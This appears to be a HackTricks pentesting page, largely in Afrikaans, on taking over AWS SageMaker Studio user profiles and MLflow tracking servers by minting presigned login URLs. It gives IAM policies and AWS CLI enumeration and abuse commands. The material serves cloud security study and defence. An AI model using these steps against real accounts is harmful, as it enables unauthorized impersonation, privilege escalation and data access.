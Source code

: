 # AWS - SageMaker Unauthorized Access

{{#include ../../../../banners/hacktricks-training.md}}

## SageMaker Studio - Account Takeover via CreatePresignedDomainUrl (Impersonate Any UserProfile)

### Description
'n identiteit met toestemming om `sagemaker:CreatePresignedDomainUrl` aan te roep op 'n geteikende Studio `UserProfile` kan 'n aanmeld-URL genereer wat direk in SageMaker Studio as daardie profiel autentiseer. Dit verleen die aanvaller se blaaier 'n Studio-sessie wat die profiel se `ExecutionRole`-toestemmings erf en volle toegang tot die profiel se EFS-backed tuisgids en apps. Geen `iam:PassRole` of console-toegang is benodig nie.

### Requirements
- 'n SageMaker Studio `Domain` en 'n geteikende `UserProfile` binne dit.
- Die aanvaller-prinsipaal het `sagemaker:CreatePresignedDomainUrl` nodig op die geteikende `UserProfile` (resource‑level) of `*`.

Minimale beleidsvoorbeeld (beperk tot een `UserProfile`):
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": "sagemaker:CreatePresignedDomainUrl",
"Resource": "arn:aws:sagemaker:<region>:<account-id>:user-profile/<domain-id>/<user-profile-name>"
}
]
}
```
### Misbruikstappe

1) Enumerate a Studio Domain en UserProfiles wat jy kan target
```bash
DOM=$(aws sagemaker list-domains --query 'Domains[0].DomainId' --output text)
aws sagemaker list-user-profiles --domain-id-equals $DOM
TARGET_USER=<UserProfileName>
```
2) Genereer 'n presigned URL (geldig ~5 minute volgens verstek)
```bash
aws sagemaker create-presigned-domain-url \
--domain-id $DOM \
--user-profile-name $TARGET_USER \
--query AuthorizedUrl --output text
```
3) Maak die teruggegewe URL in 'n blaaier oop om by Studio as die teikengebruiker aan te meld. In 'n Jupyter-terminal binne Studio verifieer die effektiewe identiteit:
```bash
aws sts get-caller-identity
```
Aantekeninge:
- `--landing-uri` kan weggelaat word. Sommige waardes (bv. `app:JupyterLab:/lab`) kan verwerp word, afhangend van die Studio-flavor/weergawe; verstekwaardes herlei gewoonlik na die Studio-huis en daarna na Jupyter.
- Organisasiebeleid/VPC endpoint-beperkings kan steeds netwerktoegang blokkeer; token minting vereis nie console-aanmelding of `iam:PassRole` nie.

### Impak
- Lateral movement and privilege escalation deur enige Studio `UserProfile` aan te neem waarvan die ARN toegelaat word, en sodoende sy `ExecutionRole` en lêerstelsel/apps te erf.

### Bewyse (van 'n beheerde toets)
- Met slegs `sagemaker:CreatePresignedDomainUrl` op 'n teiken-`UserProfile`, het die aanvallerrol suksesvol 'n `AuthorizedUrl` teruggegee soos:
```
https://studio-d-xxxxxxxxxxxx.studio.<region>.sagemaker.aws/auth?token=eyJhbGciOi...
```
- A direct HTTP request responds with a redirect (HTTP 302) to Studio, confirming the URL is valid and active until expiry.

## SageMaker MLflow Tracking Server - ATO via CreatePresignedMlflowTrackingServerUrl

### Beskrywing
'n identiteit met toestemming om `sagemaker:CreatePresignedMlflowTrackingServerUrl` aan te roep vir 'n teiken SageMaker MLflow Tracking Server kan 'n eenmalige presigned URL genereer wat direk by die bestuurde MLflow UI vir daardie server verifieer. Dit gee dieselfde toegang as wat 'n wettige gebruiker sou hê tot die server (bekyk/skep eksperimente en runs, en aflaai/oplaai van artefakte in die server se S3-artefakbewaarplek) sonder konsoletogang of `iam:PassRole`.

### Vereistes
- 'n SageMaker MLflow Tracking Server in die rekening/streek en die naam daarvan.
- Die aanvallende principal benodig `sagemaker:CreatePresignedMlflowTrackingServerUrl` op die teiken MLflow Tracking Server-hulpbron (of `*`).

Minimale beleidsvoorbeeld (beperk tot een Tracking Server):
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": "sagemaker:CreatePresignedMlflowTrackingServerUrl",
"Resource": "arn:aws:sagemaker:<region>:<account-id>:mlflow-tracking-server/<tracking-server-name>"
}
]
}
```
### Misbruikstappe

1) Enumereer MLflow Tracking Servers wat jy kan teiken en kies een naam
```bash
aws sagemaker list-mlflow-tracking-servers \
--query 'TrackingServerSummaries[].{Name:TrackingServerName,Status:TrackingServerStatus}'
TS_NAME=<tracking-server-name>
```
2) Genereer 'n vooraf-ondertekende MLflow UI URL (geldig vir 'n kort tyd)
```bash
aws sagemaker create-presigned-mlflow-tracking-server-url \
--tracking-server-name "$TS_NAME" \
--expires-in-seconds 300 \
--session-expiration-duration-in-seconds 1800 \
--query AuthorizedUrl --output text
```
3) Open die teruggegewe URL in 'n blaaier om toegang tot die MLflow UI as 'n geauthentiseerde gebruiker vir daardie Tracking Server te kry.

Aantekeninge:
- Die Tracking Server moet in 'n gereed‑toestand wees (bv., `Created/Active`). As dit nog `Creating` is, sal die oproep verwerp word.
- Die presigned URL is vir eenmalige gebruik en kortstondig; genereer 'n nuwe een wanneer nodig.

### Impak
- Direkte toegang tot die bestuurde MLflow UI vir die geteikende Tracking Server, wat dit moontlik maak om eksperimente/runs te besigtig en te wysig, en om artefakte wat in die bediener se gekonfigureerde S3 artifact store gestoor is af te laai of op te laai, binne die toestemmings wat deur die bediener se konfigurasie opgelê word.

{{#include ../../../../banners/hacktricks-training.md}}
